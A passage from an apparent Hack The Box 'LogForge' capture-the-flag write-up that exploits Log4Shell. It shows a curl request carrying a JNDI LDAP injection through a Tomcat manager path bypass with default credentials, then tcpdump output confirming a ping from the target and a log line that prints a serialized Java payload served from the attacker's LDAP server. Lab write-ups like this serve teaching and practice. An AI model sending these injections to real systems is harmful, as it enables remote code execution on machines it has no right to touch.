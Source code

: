 From that list, this is the one I used:

```text
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/u3rmld
ldap://10.10.14.12:389/u3rmld
```

Next in another terminal start tcpdump listening for icmp packets to catch the ping from the box:

```sh
┌──(root💀kali)-[~]
└─# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Now we can use curl to trigger the JNDI exploit like before, but this time we are pointing it at the target being hosted by the JNDI exploit kit, so use the one we picked from above:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12:389/u3rmld}" -H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

Switch to tcpdump to see the ping:

```sh
┌──(root💀kali)-[~]
└─# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:46:05.672651 IP 10.10.11.138 > 10.10.14.12: ICMP echo request, id 3, seq 1, length 64
17:46:05.672658 IP 10.10.14.12 > 10.10.11.138: ICMP echo reply, id 3, seq 1, length 64
17:46:06.674609 IP 10.10.11.138 > 10.10.14.12: ICMP echo request, id 3, seq 2, length 64
17:46:06.674626 IP 10.10.14.12 > 10.10.11.138: ICMP echo reply, id 3, seq 2, length 64
17:46:07.675789 IP 10.10.11.138 > 10.10.14.12: ICMP echo request, id 3, seq 3, length 64
17:46:07.675800 IP 10.10.14.12 > 10.10.11.138: ICMP echo reply, id 3, seq 3, length 64
17:46:08.677962 IP 10.10.11.138 > 10.10.14.12: ICMP echo request, id 3, seq 4, length 64
17:46:08.677973 IP 10.10.14.12 > 10.10.11.138: ICMP echo reply, id 3, seq 4, length 64
```

If you look back at the LDAP server we're running using the exploit kit we see the connection and our response is passing the pencer.ser payload:

```text
----------------------------Server Log----------------------------
2022-01-02 17:46:02 [JETTYSERVER]>> Listening on 10.10.14.12:8180
2022-01-02 17:46:02 [RMISERVER]  >> Listening on 10.10.14.12:1099
2022-01-02 17:46:02 [LDAPSERVER] >> Listening on 0.0.0.0:389
2022-01-02 17:46:05 [LDAPSERVER] >> Send LDAP object with serialized payload: ACED00057372002E6A61766
782E6D616E6167656D656E742E42616441747472696275746556616C7565457870457863657074696F6ED4E7DAAB632D46400
200014C000376616C7400124C6A6176612F6C616E672F4F626A6563743B787200136A6176612E6C616E672E45786365707469
```
